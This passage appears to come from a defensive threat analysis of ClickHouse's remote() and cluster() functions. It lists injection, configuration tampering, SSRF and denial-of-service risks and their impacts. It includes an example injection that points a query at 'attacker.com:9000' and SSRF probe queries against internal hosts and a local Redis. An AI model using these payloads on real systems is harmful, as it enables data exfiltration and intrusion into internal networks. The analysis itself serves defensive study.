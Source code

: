Both functions are designed for distributed queries and data access across multiple ClickHouse instances.  They are powerful features, but their flexibility introduces significant security risks if misused.

### 2.2 Attack Vector Identification

The primary attack vector is **injection of malicious server addresses or cluster names**.  An attacker can achieve this through various means:

1.  **Direct SQL Injection:** If user input is directly incorporated into the `remote()` or `cluster()` function call without proper sanitization, an attacker can inject a malicious `host:port` or `cluster_name`.

    *   **Example (remote):**
        ```sql
        -- Vulnerable code:
        SELECT * FROM remote('{user_input}', 'default', '', 'system', 'numbers');

        -- Attacker input:
        user_input = 'attacker.com:9000'

        -- Resulting query:
        SELECT * FROM remote('attacker.com:9000', 'default', '', 'system', 'numbers');
        ```
        This allows the attacker to direct the query to their own server.

    *   **Example (cluster):**  While less direct, if the attacker can influence the `config.xml` file (e.g., through a separate vulnerability), they could redefine an existing cluster or add a new one pointing to a malicious server.

2.  **Indirect Injection (Configuration Manipulation):**  If an attacker can modify the ClickHouse server's configuration files (e.g., `config.xml`, `users.xml`), they can:
    *   Alter existing cluster definitions to include malicious servers.
    *   Add new cluster definitions pointing to malicious servers.
    *   Modify user permissions to allow unauthorized use of `remote()` and `cluster()`.

3.  **SSRF (Server-Side Request Forgery):** Even if the attacker cannot *completely* control the target server, they might be able to use `remote()` to probe internal networks or access services that are not directly exposed to the internet.  For example, they might try to connect to internal IP addresses or ports.

    *   **Example:**
        ```sql
        SELECT * FROM remote('192.168.1.100:8123', ...); -- Attempting to access an internal server.
        SELECT * FROM remote('localhost:6379', ...); -- Attempting to access a local Redis instance.
        ```

4.  **Denial of Service (DoS):** While not the primary concern, an attacker could potentially use `remote()` to connect to a non-existent or unresponsive server, causing the ClickHouse query to hang or consume excessive resources.

### 2.3 Impact Assessment

The impact of a successful attack can be severe:

*   **Data Exfiltration:** The attacker can retrieve sensitive data from the ClickHouse database by directing queries to their own server.
*   **SSRF:** The attacker can use the ClickHouse server as a proxy to attack other internal systems or services, potentially bypassing firewalls and other security controls.
*   **System Compromise:** In some cases, a successful SSRF attack could lead to the compromise of other systems on the network.  If the attacker can gain access to a vulnerable internal service, they might be able to execute arbitrary code or gain further access.
*   **Reputational Damage:** Data breaches and system compromises can severely damage the reputation of the organization.
*   **Financial Loss:** Data breaches can lead to significant financial losses due to regulatory fines, legal fees, and the cost of remediation.
